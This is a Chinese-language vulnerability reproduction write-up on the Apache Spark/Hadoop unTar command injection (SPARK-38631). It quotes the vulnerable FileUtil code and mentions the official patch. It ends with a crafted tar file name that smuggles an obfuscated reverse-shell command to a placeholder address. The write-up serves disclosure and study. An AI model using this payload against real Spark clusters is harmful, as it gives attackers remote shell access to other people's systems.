




Apache Spark unTarUsingTar 命令注入漏洞 SPARK-38631¶
漏洞描述¶
Apache Spark 是一种用于大数据工作负载的分布式开源处理系统。它使用内存中缓存和优化的查询执行方式，可针对任何规模的数据进行快速分析查询。它提供使用 Java、Scala、Python 和 R 语言的开发 API，支持跨多个工作负载重用代码—批处理、交互式查询、实时分析、机器学习和图形处理等。当 Spark 任务的文件名可控时，Utils.unpack 采用命令拼接的形式对 tar 文件进行解压，存在任意命令注入的风险。这是源于 Hadoop 中 unTar 函数存在问题，在其执行 shell 命令之前未正确转义文件名，直接拼接命令导致任意命令注入。
漏洞影响¶
Apache Spark 3.1.2, 3.2.1, 3.3.0
漏洞复现¶
查看官方的修复补丁


官方修复针对.tar 后缀的压缩包调用了新增的 unTarUsingJava 函数来进行处理，我们下载存在漏洞的版本看一下漏洞位置
hadoop-common-2.7.4.jar!/org/apache/hadoop/fs/FileUtil.class

可以看到漏洞主要出现在 Linux 对文件的解压处理中
public static void unTar(File inFile, File untarDir) throws IOException {
if (!untarDir.mkdirs() && !untarDir.isDirectory()) {
throw new IOException("Mkdirs failed to create " + untarDir);
} else {
boolean gzipped = inFile.toString().endsWith("gz");
if (Shell.WINDOWS) {
unTarUsingJava(inFile, untarDir, gzipped);
} else {
unTarUsingTar(inFile, untarDir, gzipped);
}
}
}
这里我们控制压缩 tar 文件的文件名就可以进行命令注入
private static void unTarUsingTar(File inFile, File untarDir, boolean gzipped) throws IOException {
StringBuffer untarCommand = new StringBuffer();
if (gzipped) {
untarCommand.append(" gzip -dc '");
untarCommand.append(makeShellPath(inFile));
untarCommand.append("' | (");
}
untarCommand.append("cd '");
untarCommand.append(makeShellPath(untarDir));
untarCommand.append("' ; ");
untarCommand.append("tar -xf ");
if (gzipped) {
untarCommand.append(" -)");
} else {
untarCommand.append(makeShellPath(inFile));
}
String[] shellCmd = new String[]{"bash", "-c", untarCommand.toString()};
ShellCommandExecutor shexec = new ShellCommandExecutor(shellCmd);
shexec.execute();
int exitcode = shexec.getExitCode();
if (exitcode != 0) {
throw new IOException("Error untarring file " + inFile + ". Tar process exited with exit code " + exitcode);
}
}
创建 Tar 文件, 在使用 addArchive 执行解压就可以注入恶意命令
touch '1\|{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvNjY2NiAwPiYx}|{base64,-d}|{bash,-i}\|1.tar'
